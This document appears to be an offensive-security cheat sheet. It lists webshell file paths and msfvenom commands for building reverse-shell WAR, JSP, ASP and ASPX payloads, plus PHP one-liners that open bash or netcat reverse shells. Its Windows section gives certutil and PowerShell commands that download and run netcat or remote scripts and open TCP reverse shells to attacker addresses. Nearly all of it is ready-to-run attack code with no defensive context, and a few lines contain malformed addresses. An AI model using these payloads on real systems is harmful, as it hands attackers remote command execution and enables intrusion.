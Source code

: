 ### WebShells 

````
PHP 
/usr/share/webshells/php/simple-backdoor.php , paramter - cmd 

Cold FUsion 
/usr/share/webshells/cfm/cfexec.cfm

JSP 
/usr/share/webshells/jsp/jsp-reverse.jsp

ASP/ASPX
/usr/share/webshells/asp/
/usr/share/webshells/aspx/

Perl/CGI 
/usr/share/webshells/perl/perl-reverse-shell.pl
/usr/share/webshells/perl/perlcmd.cgi
````


### INITIAL ENTRY

````
JSP / tomcat WAR 
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f war > java4444.war  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.1 LPORT=4448 -f raw > w4448.jsp 

ASP /ASPX 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f asp > shell.asp
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f aspx > shell.aspx

PHP 
<?php $cmd = shell_exec('bash -i >& /dev/tcp/10.10.10.14444 0>&1'); echo $cmd;?> 
<?php $cmd = shell_exec('cmd /c \\10.10.10.1\test\nc.exe -e cmd.exe 10.10.10.1 4444'); echo $cmd;?> 
````


### Windows Reverse Shell

````

\\192.168.119.155\test\nc.exe -e cmd.exe 192.168.1.1 4444

certutil -urlcache -f http://192.168.1.1/nc.exe nc.exe & nc.exe -e cmd.exe 192.168.1.1 4444

start /B \\192.168.1.1\test\nc.exe -e cmd.exe 192.168.1.1 4444 

start /B powershell.exe -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.9.51.179',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..255|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

start /B powershell -exec bypass -c "$sm=(New-Object Net.Sockets.TCPClient('10.9.51.179',4444)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}"

powershell -exec bypass -c "iwr('http://192.168.1.1Invoke-PowerShellTcp.ps1')|iex"

powershell -exec bypass -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-PowerShellTcp.ps1')"
````